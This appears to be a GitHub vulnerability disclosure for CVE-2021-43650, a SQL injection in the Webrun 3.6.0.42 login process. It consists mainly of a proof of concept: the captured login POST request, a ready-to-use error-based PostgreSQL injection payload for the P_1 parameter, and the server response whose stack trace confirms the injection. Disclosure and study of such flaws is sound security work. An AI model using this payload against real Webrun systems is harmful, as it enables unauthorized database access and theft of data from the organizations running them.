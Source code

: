 # CVE-2021-43650
Webrun &lt;= 3.6.0.42 SQLi

# Description
Webrun is a web-based management application. In version 3.6.0.42 it was possible to identify and report a SQL Injection vulnerability that occurs during the login process, more specifically we will inject the payload in the POST parameter called P_1.

# Proof of Concept (POC)
During the login process, the following request will be sent:

```
POST /webrun/executeRule.do HTTP/1.1
Host: restricted
Content-Length: 334
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://restricted
Referer: http://restricted/webrun/openform.do?sys=GES&action=openform&formID=8265&firstLoad=true
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: JSESSIONID=5DF6A762C84832879F7265FDE5F059B3; WebrunSelectedSystem=GES
Connection: close

action=executeRule&pType=2&ruleName=GES_FLX_Gerar+Token+Dashboard&sys=GES&formID=8265&parentRID=-1&P_0=username&P_1=pass321
```

For exploration, we will use the following payload:

```
121')+AND+5110%3dCAST((CHR(113)||CHR(118)||CHR(118)||CHR(120)||CHR(113))||(SELECT+(CASE+WHEN+(5110%3d5110)+THEN+1+ELSE+0+END))%3a%3atext||(CHR(113)||CHR(98)||CHR(122)||CHR(98)||CHR(113))+AS+NUMERIC)+AND+('AYkd'%3d'AYkd
```

With this in hand, we will have the following response from the server:

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Cache-Control: no-cache
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 1609
Date: Thu, 02 Feb 2023 00:56:00 GMT
Connection: close

interactionError('ERRO: sintaxe de entrada é inválida para tipo numeric: \"qvvxq1qbzbq\"', null, null, null, '<b>Exceção Gerada:</b><br>org.postgresql.util.PSQLException: ERRO: sintaxe de entrada é inválida para tipo numeric: \"qvvxq1qbzbq\"\n	at org.postgresql.core.v3.QueryExecutorImpl.receiveErrorResponse(QueryExecutorImpl.java:2102)\n	at org.postgresql.core.v3.QueryExecutorImpl.processResults(QueryExecutorImpl.java:1835)\n	at org.postgresql.core.v3.QueryExecutorImpl.execute(QueryExecutorImpl.java:257)\n	at org.postgresql.jdbc2.AbstractJdbc2Statement.execute(AbstractJdbc2Statement.java:500)\n	at org.postgresql.jdbc2.AbstractJdbc2Statement.executeWithFlags(AbstractJdbc2Statement.java:388)\n	at org.postgresql.jdbc2.AbstractJdbc2Statement.executeQuery(AbstractJdbc2Statement.java:273)\n	at wfr.database.DBConnection.execQueryStatement(DBConnection.java:1367)\n	at wfr.com.systems.system_ges.rules.WebrunFunctions.ebfSQLExecuteQuery(WebrunFunctions.java:12371)\n	at wfr.com.systems.system_ges.rules.WebrunFunctions.ebfSQLDynamicQuery(WebrunFunctions.java:11548)\n	at wfr.com.systems.system_ges.rules.GesFlxGerarTokenDashboard.run(GesFlxGerarTokenDashboard.java:186)\n	at wfr.rules.WFRRule.start(WFRRule.java:755)\n	at wfr.rules.WFRRule.call(WFRRule.java:1817)\n	at wfr.rules.WFRRule.call(WFRRule.java:57)\n	at java.util.concurrent.FutureTask.run(Unknown Source)\n	at java.util.concurrent.ThreadPoolExecutor.runWorker(Unknown Source)\n	at java.util.concurrent.ThreadPoolExecutor$Worker.run(Unknown Source)\n	at java.lang.Thread.run(Unknown Source)');
if (parent.mainform) parent.mainform.hideWait();
```
